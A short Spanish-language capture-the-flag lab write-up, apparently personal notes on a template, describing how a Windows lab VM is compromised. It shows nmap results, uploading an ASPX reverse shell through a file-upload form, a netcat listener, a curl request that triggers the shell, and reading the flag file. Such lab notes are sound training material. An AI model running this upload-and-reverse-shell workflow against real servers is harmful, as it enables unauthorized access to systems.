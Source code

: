 # {CATEGORÍA}: {DESCRIPCIÓN}

## Fecha: 22/01/2025
## Host: Windows
## IP: 192.168.248.192

---

## Objetivo
Capstone Lab: Enumerate the machine VM #4. 
Find the web application and get access to the system. 
The flag can be found in ** C:\inetpub\.**

---
## Herramientas
1. nmap 
2. nc
---
## Procedimiento y comandos
1. Paso 1: Enumerar el host: obtenemos puertos abiertos
    PORT     STATE SERVICE       VERSION
    80/tcp   open  http          Microsoft IIS httpd 10.0 
    135/tcp  open  msrpc         Microsoft Windows RPC
    139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
    445/tcp  open  microsoft-ds?
    5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
    8000/tcp open  http          Microsoft IIS httpd 10.0
    Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
	
2. Paso 2: Subimos el shell de: **https://gist.github.com/qtc-de/19dfc9018685fce1ba2092c8e2382a79** 
	- Exploramos http://192.168.248.192:8000 y encontramos un input de tipo file
	- Subimos un reverse shell asp **shell.aspx**
3. Paso 3: Obtenemos el reverse Shell:
	- **nc -lnvp 4444**
	- **curl -i http://192.168.248.192:80/shell.aspx**
4. Paso 4: Obtenemos el flag:
	- ** type /inetpub/flag.txt**

---
## Troubleshooting

---

## Herramientas Alternativas
- [ ] **Herramienta 1:** Descripción breve (Comando)
- [ ] **Herramienta 2:** Descripción breve (Comando)
- [ ] **Herramienta 3:** Descripción breve (Comando)

